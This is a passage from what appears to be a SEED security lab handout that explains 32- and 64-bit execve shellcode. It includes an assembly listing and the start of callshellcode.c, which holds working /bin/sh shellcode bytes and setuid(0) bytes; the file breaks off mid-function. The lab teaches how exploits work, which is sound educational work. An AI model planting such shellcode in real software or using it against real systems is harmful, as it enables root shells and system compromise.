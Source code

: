 The shellcode above basically invokes the execve() system call to execute /bin/sh. In a separate SEED lab, the Shellcode lab, we guide students to write shellcode from scratch. Here we only give a very brief explanation.

- The third instruction pushes "//sh", rather than "/sh" into the stack. This is because we need a 32-bit number here, and "/sh" has only 24 bits. Fortunately, "//" is equivalent to "/", so we can get away with a double slash symbol.
- We need to pass three arguments to execve() via the ebx, ecx and edx registers, respectively. The majority of the shellcode basically constructs the content for these three arguments.
- The system call execve() is called when we set al to 0x0b, and execute "int 0x80".

### 3.3 64-Bit Shellcode

We provide a sample 64-bit shellcode in the following. It is quite similar to the 32-bit shellcode, except that the names of the registers are different and the registers used by the execve() system call are also different. Some explanation of the code is given in the comment section, and we will not provide detailed explanation on the shellcode.

```asm
xor rdx, rdx        ; rdx = 0: execve()'s 3rd argument
push rdx
mov rax, '/bin//sh' ; the command we want to run
push rax
mov rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument
push rdx            ; argv[1] = 0
push rdi            ; argv[0] --> "/bin//sh"
mov rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
xor rax, rax
mov al, 0x3b        ; execve()'s system call number syscall
```

### 3.4 Task: Invoking the Shellcode

We have generated the binary code from the assembly code above, and put the code in a C program called callshellcode.c inside the shellcode folder. If you would like to learn how to generate the binary code yourself, you should work on the Shellcode lab. In this task, we will test the shellcode.

_Listing 1: callshellcode.c_
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0) 
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;
```